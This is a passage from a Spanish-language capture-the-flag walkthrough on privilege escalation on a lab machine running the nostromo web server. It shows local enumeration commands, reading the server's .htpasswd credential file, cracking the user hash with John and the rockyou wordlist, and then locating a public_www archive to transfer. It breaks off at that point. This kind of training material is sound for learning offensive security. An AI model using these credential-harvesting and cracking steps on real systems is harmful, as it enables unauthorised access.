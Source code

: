 


## Escalada de privilegios {-}

### Enumeracion del usuario en la maquina victima {-}

```bash
cd /home
#Output
david

ls /home/david
#Output
Permisson denied

ls -l /home
#Output
drwx--x--x
```

Enumeramos el systema

```bash
cd /
id
sudo -l
find \-perm -4000 2>/dev/null
cd /var
ls
cd nostromo
cd conf
cat nhttpd.conf
cat /var/nostromo/conf/.htpasswd
```

Encontramos el hash del usuario david vamos a copiarlo en la maquina de atacante, y intentamos bruteforcear con **John**

### John {-}

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Encontramos una contraseña intentamos ponerla haciendo un `su david` y `su root`, pero no va. La conclusion a la que hay que llegar
es que cuando miras el fichero nhttpd.conf, dice que hay un directorio **public_www**.


### Investigacion del public_www {-}

Intentamos ver si esta en el directorio `/home/david/public_www` y efectivamente. hay un fichero comprimido y nos vamos a transferir 
a nuestro equipo de atacante.
